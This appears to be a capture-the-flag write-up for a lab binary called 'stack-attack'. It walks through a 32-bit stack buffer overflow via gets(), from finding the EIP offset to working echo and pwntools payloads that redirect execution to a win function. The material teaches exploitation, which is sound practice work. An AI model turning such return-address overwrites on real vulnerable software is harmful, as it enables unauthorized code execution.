


# Stack Attack 


# Description 
If you were to read about manual for `gets` function, you might notice that it is not safe to use **No check for buffer overrun is performed**. This is exactly what will we be exploiting 

To exploit a buffer overflow on a 32-bit machine, one would need to overwrite the **EIP** with the address of the target function to redirect the flow of the program, in order to do so the goal would be to provide an input larger than the buffer to overflow the buffer space.


# Manual 
As seen in the command below, we provide the A string followed by the address of **win** function to get the flag, but how did we figure this out

## Steps
1. Generate cyclic string to locate eip offset `cyclic 120`
2. Run the binary in pwngdb and input the generate string 
3. Copy the value of the **EIP** = ~~0x61616174~~
4. Open a python shell and check the offset of EIP against the generated cyclic string 
```
Python 3.10.12 (main, Nov 20 2023, 15:14:05) [GCC 11.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import * 
>>> len(cyclic(cyclic_find(0x61616174)))
76
>>> 
```
5. Find the address of target function `readelf -s stack-attack | grep "win"
6. Add the overflow string with the formatted address and exploit the binary

`echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x91\x04\x08" | ./stack-attack`



# Automated 
To create an exploit script will use pwntools. 

```
from pwn import *
from colorama import Fore, Style

binpath = "../build/stack-attack"
context.update(arch='i386', os='linux', terminal='tilix')

p = process(binpath)

target = p32(0x08049196)

p.sendline(b"A"*76 + target)

data = p.recv().decode()
print (f"Bingo: {Fore.RED}{data}")
print(Style.RESET_ALL)
```

## Breakdown 
Import needed packages 
```
from pwn import *
from colorama import Fore, Style
```
Set system settings 
```
binpath = "../build/stack-attack"
context.update(arch='i386', os='linux', terminal='tilix')
```
Create process
```
p = process(binpath)
```
Format address and send payload 
```
target = p32(0x08049196)
p.sendline(b"A"*76 + target)
```
Print binary output containing the flag 
```
data = p.recv().decode()
print (f"Bingo: {Fore.RED}{data}")
print(Style.RESET_ALL)
```



# References 
- [CTF101-buffer-over-flow](https://ctf101.org/binary-exploitation/buffer-overflow/)